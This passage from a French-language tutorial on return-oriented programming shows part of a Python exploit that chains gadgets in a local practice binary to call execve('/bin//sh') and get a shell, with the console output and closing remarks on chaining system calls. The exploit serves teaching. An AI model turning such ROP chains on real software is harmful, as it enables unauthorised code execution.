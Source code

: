 ```python
p += pack('<I', 0x080481c9) 	# pop ebx ; ret
p += pack('<I', 0x080ea000) 	# Dans ebx, nous mettons l'adresse du début de .data, qui contient "/bin//sh" suivi de null bytes

p += pack('<I', 0x080de7ad) 	# pop ecx ; ret
p += pack('<I', 0x00000000) 	# On met ecx à 0

p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x00000000) 	# On met edx à 0

p += pack('<I', 0x08049323) 	# xor eax, eax ; ret

for i in range(11):				# Afin d'avoir eax = 11, on boucle 11 fois
	p += pack('<I', 0x0804812c) # inc eax ; ret

p += pack('<I', 0x0806c985) 	# int 0x80

r.sendline(p)

r.interactive()
```

Ainsi, lorsque nous lançons notre exploit, nous récupérons bien un shell

```bash
$ python exploit.py 
[+] Starting local process './rop': Done
[*] Switching to interactive mode
You password is incorrect
$ 
```

ROP, c'est super chouette, amusez vous avec ça. Dans mon exemple, je n'avais malheureusement pas de gadget de la form

```bash
int 0x80
ret
```

Donc je ne pouvais pas enchaîner les appels systèmes. Mais si vous avez ça dans un autre binaire, alors vous pouvez enchaîner presque autant d'appels systèmes que vous le souhaitez, et vous pouvez ainsi construire une chaine d'exécution complexe, seulement en utilisant des bouts de codes à droite et à gauche.

Par ailleurs, si vous êtes intéressés pour aller un peu plus loin, je vous conseille vivement la lecture de l'excellent article de Geluchat [Petit Manuel du ROP à l'usage des débutants](https://www.dailysecurity.fr/return_oriented_programming/){:target="blank"}.

Have fun !
